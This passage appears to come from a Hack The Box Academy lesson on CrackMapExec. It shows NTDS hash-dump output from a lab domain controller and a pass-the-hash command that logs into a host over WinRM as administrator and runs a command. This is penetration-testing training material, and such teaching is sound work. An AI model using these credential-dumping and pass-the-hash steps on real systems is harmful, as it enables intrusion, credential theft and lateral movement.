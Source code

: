 ```shell-session
SMB         172.16.1.10     445    DC01             inlanefreight.htb\grace:5603:aad3b435b51404eeaad3b435b51404ee:a5c7f8ecc821b547d09cf28b5864e54b:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\peter:5604:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\alina:5605:aad3b435b51404eeaad3b435b51404ee:a5be3c11831bddc88f6d7517615f3d45:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\noemi:6104:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\engels:6105:aad3b435b51404eeaad3b435b51404ee:54f45c2b87df16aafa336fb6ffbbac59:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\kiosko:6107:aad3b435b51404eeaad3b435b51404ee:f399c1b9e7f851b949767163c35ae296:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\testaccount:6108:aad3b435b51404eeaad3b435b51404ee:e02ca966c5c0b22eba3c8c4c5ae568b1:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\mathew:6109:aad3b435b51404eeaad3b435b51404ee:abfcb587cd2d0f48967ab753fba96b34:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\svc_ca:6603:aad3b435b51404eeaad3b435b51404ee:828b21c929084f0efd75791db7cb963d:::
SMB         172.16.1.10     445    DC01             DC01$:1002:aad3b435b51404eeaad3b435b51404ee:f0ec1102494ee338521fb866f5848d45:::
SMB         172.16.1.10     445    DC01             MS01$:2107:aad3b435b51404eeaad3b435b51404ee:bcbea16a525492f90a27c14217da99c0:::
SMB         172.16.1.10     445    DC01             LINUX01$:2609:aad3b435b51404eeaad3b435b51404ee:0dcd992b30914be730714233322dc502:::
SMB         172.16.1.10     445    DC01             [+] Dumped 21 NTDS hashes to /home/plaintext/.cme/logs/DC01_172.16.1.10_2022-12-05_162819.ntds of which 18 were added to the database
SMB         172.16.1.10     445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.1.10     445    DC01             [*] cat /home/plaintext/.cme/logs/DC01_172.16.1.10_2022-12-05_162819.ntds | grep -iv disabled | cut -d ':' -f1
```

***

## Using the Secrets (hashes)

The passwords we get are NTLM hashes. We can attempt to crack the hashes or use the Pass the Hash technique to authenticate as the user without cracking the password. See the [Pass the Hash (PtH)](https://academy.hackthebox.com/module/147/section/1638) section in the `Password Attacks` module to learn more about this attack technique.

CrackMapExec has the option `-H`, which expects an NTLM hash as an authentication method instead of a password:

### **Using NTLM Hashes**

```shell-session
$ crackmapexec winrm 10.129.204.133 -u administrator -H 30b3783ce2abf1af70f77d0660cf3453 --local-auth -x whoami

SMB         10.129.204.133  5985   MS01             [*] Windows 10.0 Build 17763 (name:MS01) (domain:MS01)
HTTP        10.129.204.133  5985   MS01             [*] http://10.129.204.133:5985/wsman
WINRM       10.129.204.133  5985   MS01             [+] MS01\administrator:30b3783ce2abf1af70f77d0660cf3453 (Pwn3d!)
WINRM       10.129.204.133  5985   MS01             [+] Executed command
WINRM       10.129.204.133  5985   MS01             ms01\administrator
```
